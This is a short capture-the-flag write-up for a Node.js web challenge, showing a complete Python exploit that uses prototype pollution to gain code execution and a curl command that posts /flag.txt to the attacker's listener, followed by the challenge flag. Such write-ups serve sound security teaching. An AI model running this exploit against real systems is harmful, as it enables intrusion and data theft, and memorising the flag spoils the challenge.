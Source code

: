 # Toxic Writeup

Toxic is a web challenge, it's supposed to be easy, you are given the `app.js` file and you need to get a RCE.

## The vuln

Read [this](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution) and [this](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce).

Congratz you can now exploit a prototype pollution, I don't know what was hard in that? The only additional thing you need to do is encrypt your payload. You need the key? WELP the key is randomly generated between 1 and 10 so just fix your key and try the request several time!

Here is the exploit script:

```
Python
# There is a prototype pollution in decObjIn
# Plus `exec` will get us a RCE

from base64 import b64encode
import json
import requests

url = "http://10.1.27.134:13497/"
#url = "http://127.0.0.1:3030"
rev_ip = "10.1.11.16"
rev_port = "4444"

def xorNb(msg, key):
    return b64encode(bytes(
        map(
            lambda x: x ^ key,
            msg.encode()
        )
    )).decode()

def encObj(cmd,key):
    z = json.JSONEncoder()
    x = lambda k: xorNb(k, key)
    payload = {
        x('__proto__'):{
            x('shell'): x('/proc/self/exe'),
            x('argv0'): x("console.log(require('child_process').execSync('{}')).toString()//".format(cmd)),
            x("NODE_OPTIONS"): x("--require /proc/self/cmdline")
        }
    }
    return b64encode(z.encode(payload).encode()).decode()

def sendEncRequest(cmd, key):
    enc = encObj(cmd, key)
    requests.post(url, json={"json":enc})

while True:
    sendEncRequest('curl {}:{}/ -d @/flag.txt'.format(rev_ip, rev_port), 4) # We pray the key is 4

```

FLAG: `insec{j4v4scr1pt_w4s_4_g00d_id34_??}`

